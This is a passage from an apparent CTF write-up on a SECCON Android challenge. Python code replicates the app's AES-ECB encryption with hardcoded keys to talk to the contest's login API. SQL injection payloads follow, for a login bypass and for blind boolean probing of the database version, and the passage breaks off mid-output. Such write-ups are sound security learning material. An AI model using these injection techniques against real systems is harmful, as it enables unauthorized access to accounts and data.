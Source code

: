 ## 3. Simulate app behavior

```py
from Crypto.Cipher import AES
from Crypto import Random
import requests

BS = 16
pad = lambda s: s + (BS - len(s) % BS) * chr(BS - len(s) % BS)
unpad = lambda s : s[0:-ord(s[-1])]

def decrypt(s, k):
    cipher = AES.new(k, AES.MODE_ECB)
    pt = cipher.decrypt(s)
    return unpad(pt)

def encrypt(s, k):
    cipher = AES.new(k, AES.MODE_ECB)
    ct = cipher.encrypt(pad(s))
    return ct

logink = "3246847986364861"
regk =   "9845674983296465"

def login(email, password):
    data = {
        'password': encrypt(password, logink).encode('base64').rstrip('\n'),
        'email': encrypt(email, logink).encode('base64').rstrip('\n')
    }
    r = requests.post("http://apk.pwn.seccon.jp/login.php", data=data)
    return r.json()

def register(email, password, name):
    data = {
        'password': encrypt(password, regk).encode('base64').rstrip('\n'),
        'email': encrypt(email, regk).encode('base64').rstrip('\n'),
        'name': encrypt(name, regk).encode('base64').rstrip('\n')
    }
    r = requests.post("http://apk.pwn.seccon.jp/register.php", data=data)
    return r.json()

print login("rrr@rrr.com", "rrr")
```

## 4. Attack API Server

The API server is PHP pages. We can suspect SQL injection. After some tries, we succeeded to login with `rrr@rrr.com' and 1#`.

Logging in with `rrr@rrr.com' and if(mid((select version()),1,1)>4,1,0)#` responded with

```
{u'user': {u'updated_at': None, u'created_at': u'2015-12-05 21:14:39', u'name': u'rrr', u'email': u'rrr@rrr.com'}, u'uid': u'fcc89db8033ce7ce15aed60', u'error': False
```
